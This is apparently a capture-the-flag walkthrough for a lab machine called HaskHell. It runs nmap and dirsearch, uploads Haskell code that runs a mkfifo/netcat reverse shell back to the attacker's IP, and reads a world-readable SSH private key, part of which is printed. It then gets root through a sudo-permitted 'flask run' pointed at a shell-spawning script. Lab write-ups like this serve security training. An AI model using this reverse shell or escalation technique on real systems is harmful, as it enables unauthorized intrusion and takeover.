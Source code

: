 ```yaml
---
layout: default
title: HaskHell 
---
```


# HaskHell
lets begin by running Nmap scan ` sudo nmap -sS -A <IP> -v -oN scan `

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

We have discovered a webserver running on port 5001, which seems to hosted by a professor

lets run dirsearch for discovering hidden directories or files 

```console
dirsearch -u http://10.10.153.185:5001/ --simple-report=web_dir
```
```console
  _|. _ _  _  _  _ _|_    v0.4.1                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-26_17-24-56.log

Target: http://10.10.153.185:5001/                                                                   
                                                                                                     
Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.153.185/_21-08-26_17-24-57.txt

[17:24:57] Starting: 
[17:25:03] 200 -  131B  - /uploads/affwp-debug.log       
[17:28:07] 200 -  237B  - /submit                                                        
[17:28:45] 500 -  291B  - /uploads/dump.sql                                                     

Task Completed                                                                                       
```               

On visiting /submit page we can find a submit button. We can submit our haskell code and run arbitary comands on the server.\ 
lets create a revshell 

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Your IP> 4444 >/tmp/f"
```
Uploading this script we get our revershell

```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ nc -lnvp 4444                                                                             
listening on [any] 4444 ...
connect to [10.8.167.134] from (UNKNOWN) [10.10.150.235] 45040
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```
lets Spawn a stable shell
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ ls
ls
app.py  app.pyc  __pycache__  uploads
```
On enumerating the machine I'have found 2 user prof & haskell, in prof's home folder there was user.txt which we contains user flag

```console
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt

```
```console
flask@haskhell:/home/prof$ cat us 
cat user.txt 
flag{<secret>}
```
Surprisingly .ssh folder was accessible by anyone on visiting .ssh we found ssh keys for the user prof.
```console
cd .ssh
cd .ssh
flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
.........................................
-----END RSA PRIVATE KEY-----

```
Lets copy this key to our machine and ssh into the user prof another great thing is that this keys is not even password protected.\

On checking privileges for user prof we find that he can run `/usr/bin/flask run` with root privileges\

For exploiting this we need to create a python script for spawing a root shell\
```python
#!/usr/bin/python
import os
os.system("/bin/bash")
```
Set the variable to our newly created file

```console
export FLASK_APP=/home/prof/bash.py
```

Run `sudo /usr/bin/flask run`\
```console
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# ls
app.py  __pycache__  rev.sh  user.txt
```
Got root flag

```console
root@haskhell:/root# cat root.txt 
flag{<secret>}
```
